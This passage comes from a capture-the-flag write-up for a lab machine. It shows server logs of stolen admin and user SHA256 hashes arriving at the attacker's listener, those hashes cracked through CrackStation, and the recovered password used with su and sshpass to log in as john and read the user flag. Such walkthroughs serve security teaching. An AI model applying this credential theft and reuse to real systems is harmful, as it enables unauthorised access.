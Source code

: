 

A single query sends back two requests:



    10.10.11.210 - - [24/Apr/2023 16:10:08] "GET /?admin:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
    10.10.11.210 - - [24/Apr/2023 16:10:08] "GET /?john:a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -



### su / SSH

#### Crackstation

Both of these are non-salted SHA256 hashes, and both are already cracked
in [CrackStation](https://crackstation.net/):

![](/img/image-20230424161259132.png)

#### Shell

This password works for john over `su`:



    www-data@only4you:~/only4you.htb$ su - john
    Password: 
    john@only4you:~$



And SSH:



    oxdf@hacky$ sshpass -p 'ThisIs4You' ssh john@only4you.htb
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-146-generic x86_64)
    ...[snip]...
    john@only4you:~$ 



And now I have `user.txt`:



    john@only4you:~$ cat user.txt
    1f9d455b************************



## Shell as root
